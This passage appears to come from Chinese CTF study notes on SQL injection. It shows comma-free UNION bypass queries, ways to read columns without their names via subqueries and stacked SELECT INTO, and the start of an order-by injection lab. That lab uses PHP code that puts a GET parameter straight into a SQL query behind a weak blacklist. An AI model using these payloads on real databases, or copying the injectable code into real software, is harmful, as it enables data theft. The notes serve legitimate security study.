 ##### 逗号绕过

```sql
select * from ((select 1)A join (select 2)B join (select 3)C) union (select * from ctf) 
select x.1 from (select * from ((select 1)A join (select 2)B join (select 3)C) union (select * from ctf)x)
```

##### 无字段名，同表注入

（1）别名，子查询

```sql
select t.2 from (select 1,2,3 union SELECT * from ctf.user)t LIMIT 1,1
```

（2）堆叠

```sql
select * from ctf.user limit 0,1 into @a,@b,@c;select @a,@b,@c
```

##### order by排序注入

首先假设有这样一张表

![](images/ctf-2021-06-18-16-43-44.png)

有以下代码

```php
<?php
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "ctf";
$conn = new mysqli($servername, $username, $password, $dbname);

function check($s){
         if(preg_match("/\)|\(|_|\.|\|/i",$s))  #()_.|
       {    
             die('hack!'); 
       }
   }
$username=$_GET['username'];
check($username);

$sql = "select * from user where username='$username'";
$result = $conn->query($sql);
 
if ($result->num_rows > 0) {
    if($row = $result->fetch_assoc()) {
```